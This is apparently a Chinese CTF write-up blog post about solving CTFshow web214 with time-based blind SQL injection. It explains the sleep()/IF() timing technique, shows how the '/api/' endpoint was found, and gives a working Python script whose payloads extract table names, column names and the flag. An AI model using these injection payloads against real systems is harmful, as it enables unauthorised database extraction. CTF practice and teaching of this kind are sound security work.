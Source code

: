 ```yaml
---
title: CTFshow web214 时间盲注
date: 2024-09-10 20:18:07
permalink: /pages/dfa81f/
sidebars: false
article: flase
author: 
  name: Cola
  link: https://the0n3.top
---
```

## CTFshow web214 时间盲注

在ctfshow做了sql注入题目，迷迷糊糊的，第一次接触sql时间盲注

::: tip
时间盲注，例如执行select *from ctfshow_user where id = sleep(10);时，页面明显缓慢的加载了10秒才响应，说明sql语句执行成功

使用IF(condition, true_value, false_value)，当条件为真时，会执行true_value，否则执行false_value

IF(1=1,sleep(10),0)，当1=1时，执行sleep(10)，通过观察页面是否明显的缓慢加载，判断sql的if语句是否为真来实现sql时间盲注
:::

在做CTFshow web 214 sql时间盲注这题，发现一些细节

看其他师傅wp做，首页bp抓包还是f12看网络请求都没有发现api接口，直接dirsearch扫描了

![time0](https://the0n3.top/medias/show-sql/time0.png)

抓`/api/`的报文还是什么都没有

![214](https://the0n3.top/medias/show-sql/214.png)

在网络里看到`select.js`，点进去可以看到

```js
layui.use('element', function(){
  var element = layui.element;
  element.on('tab(nav)', function(data){
    console.log(data);
  });
});

$.ajax({
      url:'api/',
      dataType:"json",
      type:'post',
      data:{
        ip:returnCitySN["cip"],
        debug:0
      }

    });
```

ajax通过post请求/api/接口，有ip，debug的参数

hackbar发包，ip随便填，没有限制，debug的会影响页面是否回显。发包后返回了原sql语句`select id from ctfshow_info where ip = $_POST[ip]`，如果ip=sleep(3)，页面会缓慢的加载3秒后才响应，说明sleep执行成功

```python
import requests
import time
url = 'http://08d7032b-e019-444d-aeb7-2ba24dd99c9e.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名(当前数据库)
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

GET!